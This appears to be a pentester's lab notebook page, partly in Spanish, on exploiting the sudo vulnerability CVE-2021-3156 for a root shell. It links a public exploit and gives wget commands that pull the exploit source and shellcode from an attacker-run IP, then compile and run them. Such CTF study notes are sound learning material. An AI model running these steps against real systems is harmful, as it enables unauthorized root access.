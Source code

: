 sud## DESCRIPTION
#### Root shell PoC for CVE-2021-3156 (no bruteforce)

For educational purposes etc.

Tested on Ubuntu 20.04 against sudo 1.8.31

All research credit: **Qualys Research Team** Check out the details on their [blog](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit).

You can check your version of sudo is vulnerable with: `$ sudoedit -s Y`. If it asks for your password it's most likely vulnerable, if it prints usage information it isn't. You can downgrade to the vulnerable version on Ubuntu 20.04

Winpeas:

![[Pasted image 20230425132616.png]]


#### Mas información
* https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit


## EXPLOITATION

1. Descargamos el exploit: https://github.com/mohinparamasivam/Sudo-1.8.31-Root-Exploit

![[Pasted image 20230425132811.png]]

2. Lo transferimos a la máquina:

```
wget http://192.168.119.166:7777/Makefile
wget http://192.168.119.166:7777/exploit.c
wget http://192.168.119.166:7777/shellcode.c
```

3. Compilamos y ejecutamos:

```
$ make

$ ./exploit
```

![[Pasted image 20230425132834.png]]

## MACHINES

* Hack The Box: 

